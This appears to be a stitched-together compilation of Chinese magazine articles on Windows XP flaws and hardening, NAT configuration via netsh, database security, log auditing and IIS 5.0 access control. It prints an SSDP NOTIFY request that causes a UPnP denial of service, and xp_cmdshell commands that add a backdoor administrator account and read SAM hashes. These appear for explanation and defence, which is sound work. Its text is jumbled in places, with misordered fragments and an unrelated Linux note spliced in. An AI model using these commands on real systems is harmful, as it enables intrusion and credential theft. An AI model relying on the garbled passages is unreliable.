UPnP（通用即插即用）是一种用于 PC 机和智能设备在网络中对等连接的体系结构。UPnP 漏洞可能导致远程攻击者获取系统控制权……技术（例如 TCP/IP、HTTP 和 XML 为基础，使这样的设备彼此可自动连接和协同工作，从而使网络，尤其是家庭网络对更多的人成为可能）。这是一个 Windows XP 默认启动的服务，当用户在缺省安装 Windows XP 时就会自动启用 UPnP 服务，从而造成严重的安全漏洞。微软已经承认了这些漏洞的存在，并于 2001 年 12 月 20 日发布了针对这些漏洞的补丁程序 MS01-059（原文误为 509）。一些对 Windows 了若指掌的黑客完全可以据此控制计算机，并能轻而易举地进行破坏系统。利用 UPnP 漏洞，入侵者能够进行多种方式的入侵：

- 1. 非法获取任何 Windows XP 的系统级访问。
- 2. 如果向目标主机发送下列会话：

系统级入侵的对象为缺省安装的 Windows XP 系统，当入侵者以不同的速率向 UPnP 服务主机发送包含异常参数的请求包时，将在目标机器上引起访问冲突，这些访问冲突大多源自指针被覆盖。

```http
NOTIFY HTTP/1.1
HOST: 239.255.255.250:1900
CACHE-CONTROL: max-age=1
LOCATION: http://xptest.example.com:19/himom.html
NT: urn:schemas-upnp-org:device:InternetGatewayDevice:1
NTS: ssdp:alive
Server: EEYE/2001 UPNP/1.0 PASSFITON/1.1
USN: uuid:EEYE
```

目标主机会根据 “Location” 域中的 URL 来发起连接，如果该 URL 中的主机启动了 chargen 服务，那么目标主机就会不断地进行分配和释放内存，从而大量占用系统 CPU 资源，使系统不可用。

## 2. 账号锁定功能漏洞

Windows XP 设计了账号快速切换功能，可以使用户快速地在不同的账号之间切换，而不需要先退出再登录。但是快速账号切换功能目前也被证实在设计方面存在严重问题。当系统在用户利用账号快速切换功能快速地重试登录一个用户名时，系统会认为是一个有暴力猜解的攻击，从而造成全部非管理员账号的锁定，从而其他用户没有管理员的解禁不能登录主机。该漏洞在进行如下测试方法后将被证实：

- 1. 设置最多错误口令尝试为 3 次。
- 2. 以一般用户权限创建 10 个账户（User1-User10）。
- 3. 用 User1 账号登录。
- 4. 使用快速账号切换登录到 User2 账号。
- 5. 用快速账号切换从 User1 账号登录 User2 账号连续失败 3 次。
- 6. 试着去登录 User3 账号。

这时你会发现所有非管理员账号均已经锁定。

**解决方法：** 目前，微软还没有提供相应的补丁程序，用户如果想避免上述的漏洞，必须暂时禁止账户快速切换功能。

## 3. Windows XP 远程桌面漏洞

Windows XP 提供了远程桌面功能，目前也被证实存在设计缺陷，可能导致攻击者得到系统远程桌面的账户信息，有助于其进一步攻击。当连接建立的时候，用 Windows XP 远程桌面把账户名以明文发送给连接它的客户端。发送的账户名不一定是远端主机的用户账号，而是最常被客户端使用的账户名，网络上的嗅探程序可能会捕获到这些账户信息。

**解决方法：** 到微软主页下载相应的补丁程序，并暂时停止远程桌面的使用。

## 4. GDI 拒绝服务漏洞

Graphics Device Interface（GDI）是一套应用程序接口，用于显示图形输出。但是它存在一个安全问题，可能导致系统拒绝服务。这是由于 GDI 无法正确处理畸形或无效的参数和标志位造成的，系统表现为蓝屏，只有重新启动才能恢复正常功能。

**解决方法：** 禁止不可信用户登录系统。

## 5. 终端服务 IP 地址欺骗漏洞

Windows 2000/XP 的终端服务存在漏洞，它允许拥有非法 IP 地址的用户登录。当客户端连接时，客户端的主机名和网络地址会作为远程桌面协议（Remote Desktop Protocol）的一部分传输到服务器端。服务器程序会记录这个信息，而不是从 TCP/IP 应用上获得实际的客户端主机网络地址。

**解决方法：** 到微软公司下载相应补丁。

## 二、防范工作有“巧”

Windows XP 的安全由于自身的庞大和功能的繁多而显得较为复杂，尽管 Windows XP 在安全方面的技术和性能都做了大量的工作，将安全防范性能提高到了一个前所未有的高度，但是无孔不入的入侵问题仍然不可能使任何一种系统做到 100% 的安全，所以要保证 Windows XP 不发生大的意外，就要做好防范工作，并努力提高自身的知识水平，尽快熟悉操作系统的管家——控制面板。

由于 Windows XP 的大量新增功能，如数字媒体、即时信息传递以及电子照片处理等，这些都将使该基于该系统的 PC 和网络应用进入一个新的阶段。同样，这些崭新的功能也对安全问题提出了新的要求。经常下载系统补丁将有助于用户的安全防范，经常光顾微软的安全公告板，会了解一些微软公布的安全漏洞最新消息，总之，“防患于未然”才是真正消除安全隐患的最明智方法。

充分利用 Windows XP 的安全特性进行一些必要的安全配置，不失为一种有效的防范措施。这里就 Windows XP 所自带的安全配置方面进行了具体的讲解。

### 1. 充分利用自带的免费 Internet 连接防火墙功能（ICF）

Windows XP Internet 连接防火墙（ICF）是一个基于包的防火墙，防火墙首先不响应 Ping 命令，并禁止外部程序对本机进行端口扫描，并自动记录所有发出、接收的数据包的 IP 地址、端口、服务以及其他一些代码。这样有效地减少了外部攻击的威胁。

Internet 连接防火墙功能（ICF）需要激活后方可使用，Windows XP 支持拨号上网的用户使用防火墙功能，点击“拨号连接”属性，在“高级”中有一项为“Internet 连接防火墙”，把其中的“通过限制或阻止来自 Internet 的对此计算机的访问来保护我的计算机和网络”的选择框内打上“√”，点击“确定”按钮即可激活防火墙功能。

现在很多网吧的服务器使用的操作系统是 Windows XP，不仅是因为 Windows XP 自带虚拟拨号软件，可以很好地支持 ADSL，更重要的是 Windows XP 自带的防火墙能够支持多用户。网络管理员在设置 Windows XP 连接共享（ICS）后（Windows XP 连接共享相对于 Windows 98/2000 有了进一步的改善），局域网用户就可以高速浏览 Internet。需要注意的是：如果局域网内的每位用户都使用防火墙功能，则防火墙功能有可能导致局域网内的某些通讯的阻碍。所以建议工作站就不必再使用 ICF，而且由于工作站与 Internet 的任何通信都必须通过设置共享的主机来实现，这样就隐藏了工作站的地址，工作站就相对安全一些。当然，我们还可以用其它的专业防火墙，例如国内颇具盛名的 KV3000、VRV 等。

### 2. 利用 Windows XP 内置的 IE 6.0 来保护个人隐私

首先我们需要在 IE 6.0 中定义透露个人信息的具体参数选项，浏览器会在用户上网时，自动判断所访问的站点的安全、可信等级。对于安全站点，浏览器把你的隐私参数和站点定义的隐私政策进行比较。根据预先设定的隐私参数，来限制信息方面的流通。

如何设定浏览器将决定是否向站点泄露你的个人信息。在 IE 6.0 中可以很好管理 Cookie。Cookie 是一些站点为了提供用户特征信息而存在你的电脑上的一个小文件。通过设置 IE，用户可以做到：禁止所有 Cookies 存储到你的电脑上、拒绝第三方 Cookies，但允许其他的 Cookies 存储到电脑上、允许所有 Cookies 存储到电脑上。这样一来，用户就可以很轻松地管理 Cookies，从而不再担心 Cookies 将你的信息泄露出去。

### 3. 利用加密文件系统（EFS）加密

在 Windows XP 中 EFS 使用扩展数据加密标准（DESX）作为加密算法。EFS 自动地为用户生成一对密钥和证书，并在利用了 CryptoAPI 结构的情况下以公钥加密为基础。当用户加密文件夹的时候，该文件夹的下层所有文件夹和文件都将被自动加密。加密后的文件夹将限制、识别用户是否属于非法访问，只有对这个文件进行加密的用户可以打开这个文件并使用它。这对使用便携式电脑的用户非常适用，因为当电脑被丢失时，不必担心文件的泄露问题。从网络安全的角度来看，一旦有一天，当入侵者对存储数据的计算机有完全入侵能力的时候，加密的文件也将使入侵者大感恼火，重重的加密文件登录鉴定和文件许可这些安全特性将有效地阻止入侵者的行为。

### 4. 屏蔽不需要的服务组件

XP 众多的服务组件使用户享受到了前所未有的服务，但是出于种种原因，用户能真正在日常用到的组件还是为数不多，这就造成了很大的系统资源浪费和一定的安全隐患，甚至黑客们还会据此尝试一些入侵。所以，屏蔽一些暂时还不需要的服务组件是目前我们所能做的安全设置中的一个重要部分。

右键单击“我的电脑”选择“属性 → 管理 → 服务的应用程序 → 服务”选项，可以看到 Windows XP 上加载的各个程序组件，选择其中部分服务组件，选中“属性”，然后单击“停止”，并将启动类型设置为手动或者已禁用。

**注意：** 在进行此项操作时必须注意到有些服务组件是 Windows XP 运行时所必须存在的，如果冒然关闭会造成系统运行困难甚至崩溃。我们可以通过双击该服务或者鼠标悬停察看该服务的说明，确定不需要该服务后再禁止。

### 5. 进行适当的文件加密

在 Windows XP 的资源管理器中选中需要加密的文件或文件夹，在选择文件夹或文件的情况下点击鼠标右键，在弹出的菜单中选择“属性”命令，随后在 Windows XP 弹出的文件加密对话框中单击“常规”标签，然后再依次选择“高级 → 加密内容以便保护数据”就可以了。

### 6. 利用补丁解决“系统假死”等现象

假死现象是由于用户在使用各种应用程序时操作不当或者系统本身问题等原因，导致正在使用的部分应用程序很长时间没有响应的现象。现在已经证实，这是一种程序编写上的 Bug，绝大多数还是因为当前执行的应用程序与系统无法兼容引起的，目前微软网站已经提供了这一现象的补丁。还有一种方法是找到该程序的执行文件，然后单击鼠标右键，在弹出的对话框中选择“兼容性”标签，再在“兼容模式”下选择相应需要的运行环境，从而可以解决部分假死现象问题。像这样的系统补丁还有很多，建议用户多去微软网站看看，及时下载补丁程序。

### 7. 使用功能更为强大的 Msconfig

Msconfig 是 Windows 操作系统中的系统配置实用程序，在 Windows 98 中我们就会经常使用它来控制系统的进程，例如启动。Windows XP 提供了功能更为强大的 Msconfig，在 Windows XP 中我们不仅可以控制系统启动时自动运行的程序，还可以更改启动的服务和多操作系统共存时默认启动的系统。

### 8. 禁止使用 Shift 键自动登录

在 Windows XP 中，如果启用了自动登录功能，普通用户就可以通过按 Shift 键绕过登录输入用户名和口令的程序，从而造成非正常登录。我们可以设置注册表的相关键值来防止这种非法登录。进入注册表编辑程序，在 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon` 中新建串值 “IgnoreShiftOverride”，将值更改为 “1”，这样就可以有效禁止一些用户利用 Shift 键自动登录。

### 9. 为注册表设置管理权限

注册表在很大程度上决定着计算机的运行环境、性能和软硬件配置，通过直接修改注册表，可以实现许多在控制面板中都无法达到的目的。然而，由于注册表的复杂性，一般的用户如果在对注册表操作时有严重失误，就极有可能导致整个系统的崩溃，造成数据的丢失。所以，加强用户对注册表的管理权限的控制是一种必要的管理措施。

Windows XP 可以对不同的用户设置不同级别的注册表访问权限，从而避免普通用户对注册表的不良操作。设置方法：进入注册表编辑器，点击“编辑”菜单下的“权限”菜单，在出现的“权限”管理对话框中，我们可以设置系统存在的账户对注册表的访问权限，点击图中的“高级”按钮还可以进行一些具体的访问权限设置。

### Linux 下 .a 文件、.o 文件和 .so 文件的区别

- **.o**：就相当于 Windows 里的 obj 文件；
- **.a**：是好多个 .o 合在一起，用于静态连接；
- **.so**：是 shared object，用于动态连接的，和 dll 差不多。

### 命令行下配置 Windows 2000 的 NAT 功能

文/宫城良田

**编者按：** 一说起多机共享上互联网，很自然就想到诸如 SYGATE、WINGATE 以及 MS PROXY Server 等众多的代理服务器软件，抑或是 Windows 2000 系统自带的共享连接。但这些常规手段在某些特殊情形下却可能受到局限，比如你正远离服务器，又比如你无法使用 GUI 界面远程控制服务器，这时，就需要一种命令行下名为 NAT 的“非常手段”来达到目的。

大多数的网络管理员实现小型公司使用 Intranet 连接到 Internet 时都会选择代理服务器。如果在某些突发的时间里，这些代理服务器软件并没有准备好，又急于连接 Internet，该怎么办？有人会说用 Windows 2000 的“路由和远程访问”配置一个 NAT 不就可以了吗？不错！对于 Windows 2000 来说，这确实是个好办法。如果此时你并不在服务器旁边，而且无法通过 GUI 的方式控制服务器，只知道管理员的账号和密码，那是不是就没法完成任务了呢？当然不是！看完下面的内容你就不会束手无策了。

首先，要通过命令行工具连接到服务器上。在这我用的是 `psexec.exe`，如图 1 所示。连接到服务器的 `WinNT\system32` 下后，键入 `netsh`，再键入 `routing`，如图 2 所示。现在还得分别先后键入 `ip` 和 `nat` 才算真正到了进行配置的地方：`routing ip nat`，如图 3 所示。

在没有利用 `netsh` 配置 NAT 之前，“路由和远程访问”中的“IP 路由选择”如图 4 所示。而当我们在 `routing ip nat>` 后键入 `install`（如图 5 所示），就会发生变化了。此时的“路由和远程访问”中的“IP 路由选择”中多出了“网络地址转换（nat）”，如图 6 所示。

接下来，只要分别对服务器上的两个网络连接（lan 和 wan）进行配置就可以了。如图 7 所示。

```text
netsh
routing ip nat
add interface lan private
add interface wan full
```

利用 `add interface` 命令将 `lan`（连接内网的网卡名称）设为 `private`，即专用接口连接到专用网络（如图 8 所示）。再利用 `add interface` 命令将 `wan`（连接外网的网卡名称）设为 `full`，即公用接口连接到 Internet（如图 9 所示）。其实到了这里，已经可以使得公司的内部网络与 Internet 进行通信了。

如果对于 ISP 提供的 IP 地址不只一个的话，可以通过 `add addressrange` 命令来设置一个地址池（图 10）。例如将 `10.10.10.1` 到 `10.10.10.100` 作为地址池的范围，子网掩码为 `255.255.255.0`：

```text
add addressrange full 10.10.10.1 10.10.10.100 255.255.255.0
```

这样的命令执行后相当于图 11 所做的设置。一个内部的专用地址映射到一个公用地址时，可以用 `add addressmapping` 命令来设置（如图 12）。例如将 `192.168.0.88` 映射到 `10.10.10.10`，最后的参数 `disable` 是指禁止传入的会话：

```text
add addressmapping 10.10.10.10 192.168.0.88 tcp disable
```

命令执行后，相当于在图 13 中所做的设置。而如下的命令将允许传入的会话（如图 14、图 15 所示）：

```text
set addressmapping 10.10.10.10 192.168.0.88 tcp enable
```

到这里，利用 `netsh` 对 NAT 的设置就差不多了，如果需要对哪个接口进行修改的话，用 `set interface [name=]<string> [[mode=]full|addressonly|private]` 命令就可以了。

### 利用 Windows 2000 下的 NAT 协议实现内外网互访

文／志强 薛峰

#### 引言

实现共享上网可通过代理服务器和网络地址转换（NAT）两种方式实现。用代理服务器可设置缓冲池，上过的网站速度会很快，但缺点是每台客户机都要进行相关设置。用 NAT 方式不但设置简单，而且可实现网外的计算机直接访问内网的特定计算机。

Windows 2000 自带的 NAT 功能有以下 3 个优点：
- 1. 基本没有瓶颈：在使用其他软件时做 NAT 的服务器常会成为网络瓶颈，而系统自带功能表现优异。
- 2. 可设地址池：有些软件只能将内网地址翻译为外网网卡的一个地址，而 NAT 协议支持利用一组外网地址。
- 3. 成本低：不用另行购买第三方软件。

#### 配置 Windows 2000 的 NAT

下面我们根据图 1 所示的拓扑结构来配置 Windows 2000 的 NAT。

### 1. 设置 NAT 前的准备

**NAT 服务器的设置：**
- 1. 在做 NAT 服务的计算机上安装两块网卡，分别接内网和外网。
- 2. 为了设置方便，将接内网的网卡名字改为“内网”（默认名为：本地连接 1）。改名方法是右键单击“网上邻居”→“属性”→右键点击网卡选择“重命名”。
- 3. 同理，将接外网的网卡名字改为“外网”。
- 4. 根据拓扑结构，设置网卡地址、子网掩码：
    - 内网设为：`192.168.100.10` / `255.255.255.0`。注意：内网网卡不要设置网关。
    - 外网设为：`10.104.112.1` / `255.255.240.0`。网关根据实际需要设置。

**客户机的设置：**
客户机只需将网关设为内网网卡地址即可（本例为 `192.168.100.10`）。如果内网划分了子网，将路由器或 3 层交换模块中的默认路由指向 `192.168.100.10` 即可。

### 2. 添加 NAT 协议

在“开始 → 程序 → 管理工具”中单击“路由和远程访问”菜单，将出现配置界面。

界面。

（2）如图3所示，右键“服务器状态”，在弹出的菜单中单击“重建服务器列表”，出现图4界面。

（3）如图5所示，右键单击“IP路由选择”中的“常规”菜单，在弹出的菜单中单击“新路由选择协议”，出现图6界面。

（4）如图6所示，在此界面单击“网络地址转换（NAT）”，出现图7界面，可以看出在“IP路由选择”中多了一项“网络地址转换（NAT）”选项。

到此，NAT协议就添加好了。

## 3. 设置NAT使内网能够访问外网

（1）如图8所示，右键单击“IP路由选择”中的“网络地址转换（NAT）”菜单，在弹出的菜单中单击“新接口”，出现图9界面。

（2）如图9所示，单击“内网”，出现图10界面。

（3）如图10所示，选中“专用接口连接到专用网络”，确定后出现图11界面。

（4）如图11所示，右边界面多了“内网”的一些信息。

（5）如图12所示，单击“外网”，出现图13界面。

（6）如图13所示，选择“公用接口连接到Internet”并选中“转换TCP/UDP头”。

（7）如图14所示，选择“地址池”，按“添加”按钮，出现图15界面。

（8）如图15所示，按拓扑结构分配给的外网地址填写地址池。注意：地址1-149留作它用，这个可根据需要自己设定，可以不做保留。确定后出现图16界面。

（9）如图16所示，确定后出现图17界面。

（10）到此，内网已经能访问外网了。可以找一台内网计算机Ping外网地址，如果通了，表示设置成功。

（11）如图17所示，如果有内网的机器访问外网，在映射总数上将有显示。

（12）如图18所示，右键“外网”，单击“显示镜像”，出现图19界面，可以清楚地看出哪些机器访问了外网，映射的地址是什么。

下面我们将详细介绍外网将如何访问内网的特定机器。

## 4. 设置NAT使外网能够访问内网特定的机器

（1）参照图14界面，按“保留”按钮，出现图20界面。根据拓扑结构，我们从外网地址中选择几个地址和内网做映射。注意：选择的外网地址为地址池中的地址。如图20所示，填写映射地址并选中“允许将会话传入到此地址”。依次填写，完成后可从图21看填写结果。

（2）如图22所示，转到特殊端口一项，按“添加”按钮，出现图23界面。

（3）如图23所示，根据需要填写映射地址及对应端口，192.168.100.9提供的是WWW服务，所以端口为80。重复此过程，填写所有需要的映射。

（4）如图24所示，Windows 2000的NAT功能不但能提供标准的FTP(21)，验证是否通了，可从外网PING映射的地址（不是内网地址）。还有，映射的内网机器要打开。例如：从外网Ping 10.104.127.102，如果通了，表示外网已经能访问内网的192.168.100.9这台机器的WWW服务了。

（5）如果有外网访问，从“显示镜像”的“方向”可看出入站信息。如图25所示，看倒数第三四行，方向为“入站”，已经有人从外网访问内网了。

另外提一句：过滤防火墙可在 IP 路由选择→常规→内外网的输入输出筛选器中设置。

5. 缺点：虽然可以从“显示镜像”中看到进出站信息，但好像没有日志功能。

（上接第124页）

这些只是一些例子。密码保护不仅只针对 Oracle，其他数据库系统一样需要。

### 操作系统后门

多数数据库系统都有一些特性，来满足数据库管理员；这些也成为数据库主机操作系统的后门。

对于 Sybase 和 SQL Server 的账号“sa”，入侵者可以执行“扩展存储过程”来获得系统权限。只要登录作为“sa”，就可以使用扩展存储过程 xp_cmdshell，这允许 Sybase 和 SQL Server 用户执行操作系统命令，就好像在运行操作系统的命令行模式。比如，下面可以添加一个系统账号“refdom”，密码是“nopassword”，并且添加到 administrators 组中：

```
xp_cmdshell 'net user refdom nopassword /add'
go
xp_cmdshell 'net localgroup /add administrators refdom'
go
```

这就是因为 SQL Server 用 Windows NT 的本地账号“localsystem”来运行的命令。黑客还可以使用 xp_regread 来读取加密的 SAM 密码。然后再暴力破解。

```
xp_regread 'HKEY_LOCAL_MACHINE', 'SECURITY\SAM\Domains\Account', 'F1'
```

注意，能读出加密的密码是 NT 的“administrator”账号也不能做的。SQL Server 能读出来同样是使用的“LocalSystem”账号。

Oracle 有这样的特性，可以获得操作系统的文件访问权限。比如，UTL_FILE 允许用户读和写文件，UTL_FILE_DIR 可以用来设置用户使用 UTL_FILE 来写文件。

### 审核

主要信息和时间能被关系数据库的认证系统很详细地记录下来，但是，这只能在正确地使用和配置下才能起到安全和报警作用。这些功能能提前报警入侵者正在威胁数据库服务器，并且能探测和修复破坏。

### 木马的威胁

数据库管理员需要特别小心，一个著名的木马能够通过改变存储过程修改密码，而且能通知入侵者。比如，可以添加几行到 sp_password 中，记录新账号到库表中，通过 EMAIL 发送这个密码，或者写到文件中以后使用。这个存储过程不断地获得密码，直到弄到“sa”的密码。

总之，安全专家，DBA 等等都需要注意数据库安全就像他们配置系统一样。

---

> 编者按
>
> 日志对于安全来说，非常重要，它记录了系统每天发生的各种各样的事情，你可以通过它来检查错误发生的原因，或者攻击者留下的痕迹。本文从事件查看器的用法、审核和日志的用法以及自建日志（经验总结嘛！）三个部分，介绍了 Windows 的日志管理。

### 发挥日志的功用

日志是 Windows NT/2000/XP 的重要组成部分，重要的服务都有自己的日志文件，里面记录了服务的各个细节（如启动、关闭、运行服务过程中的各种信息等等）。作为个人用户或小型局域网的服务器管理人员，应该对日志有足够的重视，要增加查看日志的次数。无论从系统的稳定性、可靠性，还是系统的安全性，日志总是能提供第一手资料。从日志中可以发现系统的许多错误和安全性问题等，所以，可以借助日志来排除相关的问题，发挥日志的功用，让系统更加稳定、有效、安全地运行。下面先介绍一些日志的基本用法，然后介绍我在使用日志过程中总结出来的一部分经验，希望能给大家一些帮助。

### 一、事件查看器的用法

系统中有相当一部分日志可以在这里查看到，一般它包括几个日志类型：应用程序日志、安全日志、系统日志，如果安装了活动目录的话，还有活动目录日志。

- 1. 选择其中一个日志，单击右键，选择“属性”，可以看到图1所示的对话框。
- 2. “常规”选项中包含了一些基本的属性设置信息。如果你的系统有较多的服务，或者请求服务的机器较多，应该加大日志文件的大小，视情况而定了。同时应该注意所设置的天数，应尽量避免日志被改写。这里我要提醒一下，管理员应该定期备份和清除日志。历史日志也是非常有价值的，里面往往包含着系统将要发生的问题或隐含的问题，它们的作用不可忽视。属性对话框的第二个选项是“筛选器”，如图2所示。它包含了详细的属性设置信息，借助它，可以帮助管理员筛选掉不必要的信息，减少管理人员的负担。可以在“事件类型”中勾去一些不必要的类型，以减少系统的负荷，例如，某些日志中的大多数“信息”都是一些“废话”（如某某服务启动了、停止了或者是成功完成某项操作了），在保证这些服务能正常工作的情况下，你可以把“信息”这个选项前面的勾去掉。同时还可以根据服务器工作的时间来合理设置日志进行记录的时间。
- 3. 增加日志：一些日志可能不在事件查看器之中，或者想另外建立一些相同类型的日志文件，我们可以手工添加上去，便于整体管理。

### 二、审核和日志的配合使用

在“本地安全策略”（如果是域级的系统应该在“域安全策略”）中将审核打开，而具体某个对象需要对对象进行设置。当然，相关的相关信息都可以在事件查看器里查看到。

- 1. 对关键目录和文件进行审核，方法如下：这里列出一些关键文件，供参考：`net.exe`、`netsh.exe`、`at.exe`、`ftp.exe`、`tftp.exe`、`cmd.exe`、`Telnet.exe`、`ntdtlm.exe`、`tlntsvr.exe`、`format.exe`。
   关键目录：主要系统目录中的 `config` 目录、`logfiles` 目录、存放 Web 文件的目录等等、以及自己存放机密文件的目录。需根据具体情况而定。
- 2. 对于系统登录事件不可忽略，即使不上网，对于本地机器也是应该要注意安全的，可以打开“审核账户登录事件”，审核成功和失败。
- 3. 注册表：作为系统信息的庞大数据库，里面存放了系统的各种设置和信息，因此常常被别有用心的人利用，所以要好好利用保护好注册表，要打开审核策略中配置审核对象访问设置。
- 4. 终端服务的审核不是默认打开的，可以在 `Terminal Services Configuration(终端服务配置)` -> 权限 -> 高级里面配置安全审核即可，建议配置成记录登录、注销事件。

### 三、IIS 和日志

IIS 中的服务大都有自己的日志文件，要注意的是：也许日志会比较多，看起来也比较麻烦。我推荐用 Fastats Analyzer 这个工具来进行分析，它的功能十分强大。它可以支持 IIS 3/4/5/6 以及 Apache 产生的日志，而且分析的项目很多，很细致。其最大的优点就是大量使用图表的方式来表示分析的信息，这非常适合一些想“偷懒”的人。当然它也是非常专业的，适合局域网而且开了 Web 服务的服务器管理员使用。

### 四、自制日志

这里所谓的自制就是利用一些工具，手动生成日志，它们可能不是 `.log` 格式，但可以用记事本打开进行查看。

- 1. 利用 netstat 查看网络状态，并利用“>>”建立自己的日志。Netstat 的用法很多地方都有介绍，我就不多说了。举个例子：`netstat -n -p tcp 10 >>net.log`，表示每 10 秒钟就查看一次 TCP 连接的情况。一些木马就能从这里发现！
- 2. 网络防火墙。如果上网的时候总是有一些不正常的情况出现，或者防火墙经常报警，可以查看日志，看看是谁在对你“下毒手”，可以对此 IP 进行“封杀”。日志常常能帮助你找到一些木马。
- 3. 病毒防火墙。病毒所引起的问题是非常多的，日志能帮你查找一些症结。例如，有的病毒总是没杀干净，这可以在日志中反映出来，根据得到的病毒信息，而采取不同的杀除策略。

### 五、关于日志

- 1. 许多所谓的“黑客”瞄准了有些安全设置不太高的系统，他们所留下的蛛丝马迹在日志中大都能发现，但他们也会对日志进行清除工作。建议对保护有日志文件的目录或日志本身进行审核，并提高其访问权限。
- 2. 再强调一次，日志和系统的各个方面都有关联，每个时刻日志都在增加，因此，一定要定期备份和清理，以便在系统出现问题的时候及时对历史日志进行分析，往往能找出问题的关键。
- 3. 对于服务器，可根据服务的类型的不同而对记录日志有所侧重，以免造成系统运行效率的降低。

最后，提高系统的稳定性和安全性需要多方面的工作，日志仅仅是其中的一项，应该互相配合使用，达到最佳效果。

---

## IIS5.0的安全管理

文／hardi

相信对 IIS（Internet Information Services）大家都不陌生吧？作为一个网络管理员，再退一步，作为一个基于 NT 的网络管理员，IIS 对你来说应该是最重要的了吧？到目前为止，IIS5.0 是 IIS 的最新正式版本。它是一个包括具有 WWW、FTP、SMTP、NNTP 服务全部特征的 Internet 服务器，支持 WebDAV（Web Distributed Authoring and Versioning），支持活动服务页面（Active Server Pages），还有两个管理工具：一个是用于 MMC（Microsoft Management Console）的 Internet Service Manager 外接程序；另一个是用于 Web 浏览器管理的 Internet Service Manager。

就是因为 IIS5.0 拥有了那么多的功能，所以它的安全性也格外突出了，现在网络中的很多漏洞都和它有关系，如著名的 idq/.ida 溢出漏洞和在去年五·一中美黑客大战中使用最多的 UNICODE 二次解码漏洞。

所以，IIS 的安全性对于一个网络管理员来说便成了一个主要的问题。下面我们就来谈谈如何利用 IIS 本身的工具来安全地管理因特网、内联网和外部 Web 站点。

总的来说，网管可以通过 4 种主要的方法来实现安全策略：

- 1. IP 地址和域名安全限制：IIS 允许网管根据用户或工作组的 IP 地址或域名来控制他们对 Web 站点、虚拟目录和单独文件的访问。这种安全策略适用于访问该资源的所有用户。
- 2. IIS 身份验证安全限制：IIS 允许网管根据相应策略制定的用户身份验证方法的类型来控制他们对 Web 站点、虚拟目录和单独文件的访问。它和第一种策略一样，适用于访问该资源的所有用户。
- 3. IIS 权限：IIS 也允许网管根据资源的 Web 访问权限来控制客户端对 Web 站点、虚拟目录和单独文件的访问。它也适用于访问该资源的所有用户。
- 4. NTFS 权限：Windows 2000 允许管理员根据资源的 NTFS 访问权限来控制用户对物理目录和文件的访问。和其他 3 种方法不同，NTFS 权限可以实现为不同的用户和工作组分配不同的权限。而在这几种方法中最基本的方法就是利用 WinNT 的文件系统（NTFS）。在对任何其他形式的安全进行配置之前，要保证对发布内容的 NTFS 权限必须配置正确，否则……

### 一、IP 地址和域名安全限制

配置 IP 地址和域名约束的方法是根据你配置目的来确定的。比如说：如果你要为虚拟的服务器（Web 站点），虚拟路径和虚拟服务器的任何一个物理子路径配置 IP 地址约束，可以在 Internet 服务管理器中管理 Web 站点，然后点击“属性”。在属性表里选择“目录安全性”。看到“IP 地址和域名限制”了吧？点击“编辑”按钮，如图 2 所示。

如果是为一个虚拟目录或服务器下面的文件配置 IP 地址和域名约束，方法和上面类似，只不过要在 MMC 右边的界面里点击“文件”，然后右击“属性”就会看到文件安全性，后面的步骤一样。

IP 地址和域名限制框允许网管根据 IP 地址和因特网域名来允许或拒绝对服务器、站点和网页的访问。在实际配置时，要注意看清楚是拒绝访问还是授权访问。要是允许或拒绝对主机的访问，点击“添加”按钮就会产生一个对话框，然后选择是单独的计算机还是计算机组，或者是域名。

- 第一，如果是一个学校的 Web 服务器和另一个学校有相连的外联网，网管就可以用上面的策略来拒绝其他学校的 IP 地址访问。
- 第二，如果有人来入侵，比如典型的 DDoS（分布式拒绝服务攻击），如果你发现有一个来自 211.83.10.11 的人入侵你的网络，你就可以通过它来拒绝那个 IP 地址，甚至是整个 211.83.10.X 网络段的访问。当然，要防范大规模的 DDoS 攻击和 SYN 攻击，这种方法是不够的。
- 第三，要是你的 IIS 服务器可以通过局域网（LAN）来访问，但是这个 LAN 又接入了因特网，那就要靠它来完成配置了。

### 二、IIS 身份验证安全限制

网管可以配置 IIS 来根据客户端使用的登录身份验证来控制对 Web 站点、虚拟目录或单独文件的访问。这是通过为资源配置 IIS 身份验证安全机制来实现的。具体的说有 4 种验证方法：匿名访问、基本身份验证、DIGEST 身份验证、综合 Windows 身份验证。

- 首先，匿名访问。每个人都可以访问。
- 其次，基本身份验证。用户必须在登录对话框里键入有效的 Windows 2000 用户账号和口令，才能访问这样设置的 Web 站点、虚拟目录或单独文件。
- 第三，DIGEST 身份验证。这种方法将口令作为哈希值发送到网络上，不过这个选项只能适用于 Windows 2000 的域。但是我们可以使用这种方法来通过防火墙或代理服务器的登录。
- 第四，综合 Windows 身份验证。已经使用了有效的 Windows 用户账号登录到机器上的用户会自动经过身份验证而允许访问这样设置的 Web 站点、虚拟目录或单独文件。

验证的设置是和 IP 地址、域名安全限制在一起的，也是在目录安全性里的，不过要点击的是“匿名访问和验证控制”里，如图 5 所示。

看到了吧？这里面有 4 种可以选择的身份验证哦，你可以选择任意的组合哦；）

